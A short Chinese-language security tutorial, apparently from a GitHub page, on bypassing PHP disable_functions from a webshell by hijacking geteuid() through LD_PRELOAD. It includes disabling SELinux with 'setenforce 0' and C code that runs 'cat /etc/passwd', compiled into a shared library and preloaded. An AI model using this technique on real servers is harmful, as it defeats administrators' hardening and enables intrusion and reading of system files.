 前提：
linux环境中，putenv()、mail()函数可用。

记得先关闭安全模式
`setenforce 0`

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

我们先做个小实验看看 LD_PRELOAD 能否直接使用

touch test.c
```c
#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```
生成动态链接库

`gcc --share -fPIC test.c -o test.so`

使用 LD_PRELOAD 加载刚生成的 test.so，再执行 id 命令看看效果

`LD_PRELOAD=./test.so id`

![](img/2.png)
